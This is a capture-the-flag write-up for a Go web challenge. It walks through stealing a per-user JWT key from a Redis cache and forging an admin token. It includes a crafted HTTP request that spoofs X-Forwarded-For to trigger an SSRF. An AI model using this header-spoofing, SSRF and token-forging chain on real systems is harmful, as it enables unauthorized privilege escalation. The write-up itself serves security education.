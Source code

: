 # Senpai

> Rin or Sakura?\
> \
> http://chals.ctf.sg:40201\
> \
> author: Gladiator

### Authentication Logic

The end-goal, of course, is to get to `/flag`, but there is a `role` attribute in the JWT token that we must change to `admin` in order to pass the `IsAdmin` check.

```go
func flagHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	role, _ := config.GetTokenRole(r)
	username, err := config.GetTokenUsername(r)
	if err != nil {
		http.Error(w, "An error has occured", http.StatusBadRequest)
		return
	}
	user, _ := data.GetUser(username)
	if (config.TokenValid(r, user.Otp)) == nil {
		if config.IsAdmin(role) {
			fmt.Fprint(w, logic.Flagger())
		}
		return
	}
	return
}
```

Let's look at the registration and login flow. This time, it seems like `user.Otp` is actually the JWT key - each user's key would be different!

```go
func newJWTUserKey() string {
	partOne := strings.Replace(config.GenUUID(), "-", "", -1)
	partTwo := strings.Replace(config.GenUUID(), "-", "", -1)
	partThree := strings.Replace(config.GenUUID(), "-", "", -1)
	newOTP := partOne + partTwo + partThree
	return newOTP
}

func Register(account data.RegisterAccount) bool {
	var newAccount data.UserAccount
	newAccount.Username = account.Username
	newAccount.Password = account.Password
	newOTP := newJWTUserKey()
	newAccount.Otp = newOTP
	newAccount.Verified = "true"
	return data.InsertUser(&newAccount)
}
```

The JWT key is then used to sign the token when we log in.

```go
func loginHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	var login data.UserAccount
	err := json.NewDecoder(r.Body).Decode(&login)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
	state, jwtKet := logic.Login(login)
	if state == false {
		http.Error(w, "Account does not exists, or account credentials are wrong", http.StatusBadRequest)
		return
	}
	token, _ := config.CreateToken(login.Username, jwtKet)
	fmt.Fprint(w, "Account logged in, your token is: "+token)
}
```

What's interesting, though, is that there is a caching mechanism that stores each user's JWT key in a Redis cache after logging in. Presumably, in real-world applications such a caching mechanism would save time in performing database lookups each time JWT authentication occurs.

```go
func Login(account data.UserAccount) (bool, string) {
	var user *data.UserAccount
	user, _ = data.GetUser(account.Username)
	if user == nil {
		return false, ""
	}
	if config.CheckPasswordHash(account.Password, user.Password) == false {
		return false, ""
	}
	if user.Verified == "false" {
		return false, ""
	}
	cache.Set(user.Username, user.Otp, 999999999999)
	return true, user.Otp
}
```

Sidenote: the key is only stored for two seconds, so we have to be quick here!

```go
func Set(key string, jwtkey string, exp int) error {
	client := redis.NewClient(&redis.Options{
		Addr:     "localhost:6379",
		Password: "",
		DB:       0,
	})
	err := client.Set(key, jwtkey, time.Second*2).Err()
	if err != nil {
		return err
	}
	return nil

}
```

### SSRF and Obtaining Cached Secrets

There exists a non-admin path, `/sakura` that does allow us to interact with the Redis cache.

```go
func sakuraeHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	output := logic.CacheHelper(r)
	fmt.Fprint(w, output)
	return
}
```

However, we could see in the cache-fetching mechanism that the client URL is validated to be `127.0.0.1`.

```go
func IsLocal(ip string) bool {
	return ip == "127.0.0.1"
}
```

```go
func CacheHelper(r *http.Request) string {
	ip, _ := remoteaddr.Parse().IP(r)
	if !config.IsLocal(ip) {
		return "I get older but your lovers stay my age."
	}
	result, err := cache.Get(r.URL.Query().Get("key"))
	if err != nil {
		return ""
	}
	return result
}
```

That leaves us with `/rin`. The handler logic presents us with the all-too-familiar SSRF code:

```go
func HeavensFeel(r *http.Request) http.Response {
	val := config.Process(r)
	if val == "" {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	resp, err := http.Get(val)
	if err != nil {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	return *resp
}
```

Again, the client IP is checked. But this time, the logic is slightly different. Instead of using `remoteaddr.Parse().IP(r)`, the server is directly looking at the `X-Forwarded-For` header!

```go
var local string = "X-Forwarded-For"

...

func GetIP(r *http.Request) string {
	return r.Header.Get(local)
}

...

func Process(r *http.Request) string {
	if IsLocal(GetIP(r)) {
		return r.URL.Query().Get("url")
	}
	return ""
}
```

By adding `X-Forwarded-For: 127.0.0.1`, we can access this function and perform an SSRF to the `/sakura` endpoint.

```http
POST /rin?url=http://localhost:8081/sakura?key=socengexp HTTP/1.1
Host: chals.ctf.sg:40201
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE2NDcyNDI0NDIsInJvbGUiOiJ1c2VyIiwidXNlcm5hbWUiOiJzb2NlbmdleHAifQ.Y56UmyxoibdVHxvFjN03GI_RXeIgVBl76pQZDmih6Mo
X-Forwarded-For: 127.0.0.1
```

As mentioned earlier, the cached secret only exists for 2 seconds after logging in, so we must make the above request right after logging in.

### Gaining the Admin Role

When we have the JWT secret, we could essentially craft any JWT attributes we want.

Using [https://jwt.io/](https://jwt.io) (or any JWT-signing library), supply the JWT secret and change the `role` to `admin`. We now have a new JWT token with an admin role.

![](<../../.gitbook/assets/Screenshot 2022-03-14 at 12.41.08 PM.png>)

Using this new JWT token, simply make a request to `/flag` to get the flag!

The flag is `CTFSG{Rin_Tohsaka_Best_Girl_uwu}`.
